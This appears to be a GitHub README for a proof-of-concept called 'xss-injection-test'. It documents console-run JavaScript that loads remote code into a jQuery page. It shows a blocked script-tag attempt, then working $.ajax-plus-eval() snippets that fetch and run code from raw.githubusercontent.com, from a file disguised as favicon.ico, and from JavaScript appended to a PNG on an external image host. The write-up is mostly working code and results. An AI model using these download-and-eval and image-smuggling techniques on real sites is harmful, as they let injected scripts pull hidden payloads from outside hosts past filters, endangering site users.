 # xss-injection-test

This project is a prof-og-concept of dynamic Javascript libraries injection for different browsers.

The target page must hace JQuery libraries activated

## Target paget

We will use an empty HTML page to host our injection

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Host Site</title>
  <script src="https://code.jquery.com/jquery-3.6.0.js" integrity="sha256-H+K7U5CnXl1h5ywQfKtSj8PCmoN9aaq30gDh27Xc0jk="
    crossorigin="anonymous"></script>
  <script src="https://code.jquery.com/ui/1.13.1/jquery-ui.js"
    integrity="sha256-6XMVI0zB8cRzfZjqKcD01PBsAy3FlDASrlC8SxCpInY=" crossorigin="anonymous"></script>
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css"
    integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">
  <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.min.js"
    integrity="sha384-QJHtvGhmr9XOIpI6YVutG+2QOK9T+ZnN4kzFN1RtK3zEFEIsxhlmWl5/YESvpZ13"
    crossorigin="anonymous"></script>
</head>

<body>
  <div class="container">
    <h1>Target page</h1>
    <h2>Simple page with jqeury and bootstrap activated</h2>
  </div>
</body>
</html>

## Code to inject
The goal is to inject the code of this file on the page:

```
https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js
```

# First try (Brave)

we execute in console:

```javascript
function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

### Result:

```
VM304:6 Cross-Origin Read Blocking (CORB) blocked cross-origin response https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js with MIME type text/plain. See https://www.chromestatus.com/feature/5629709824032768 for more details.
```

## Second try. Add dinamically CSP

We execute in console

```javascript
function dynamicallyInsertCSP() {
        let metaElement = document.createElement("meta");
        metaElement.setAttribute("content", "default-src 'self' 'unsafe-inline' *.githubusercontent.com;")
        metaElement.setAttribute("http-equiv", "Content-Security-Policy");
        document.head.appendChild(metaElement);
};

dynamicallyInsertCSP();

function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

And we check we have this tag at the HEAD:

```
<meta content="default-src 'self' 'unsafe-inline' *.githubusercontent.com;" http-equiv="Content-Security-Policy">
```

But when executing injection we get the same result

## Third try. Import as text, execute with eval(). Works!

The are a lot of restrictions about importing JavaScript code into current page. It seems that including some "Same-Origin" from the server would help us, but let's try another ways involving only client.

```javascript
$.ajax({
    url:'https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js?' + new Date().getTime(),
    success: function (data){
        eval(data);
    }
  });
```

in this case we get the console message:

```
owned
```

This method works event wiouth creating the META tag!

## Fourth try. Import as image, execute with eval(). Works!

The are a lot of restrictions about importing JavaScript code into current page. It seems that including some "Same-Origin" from the server would help us, but let's try another ways involving only client.

```javascript
$.ajax({
    url:'https://raw.githubusercontent.com/disier/xss-injection-test/main/favicon.ico?' + new Date().getTime(),
    success: function (data){
        eval(data);
    }
  });
```

javascript code is executed

## Fitht test. Javascript appened to a PNG image located in an image host. Works

In this case a piece of JsvsScript code is attached to a legit PNG file

```
    // Execute call to download external script
    $.ajax({
      url: "https://i.ibb.co/9ZtQ16B/icon.png?" + new Date().getTime(),
      success: function (data) {
        // extract the plain text from the end of the image
        let myscript = data.slice(22505);
        // Execute it
        eval(myscript);
      },
    });
```
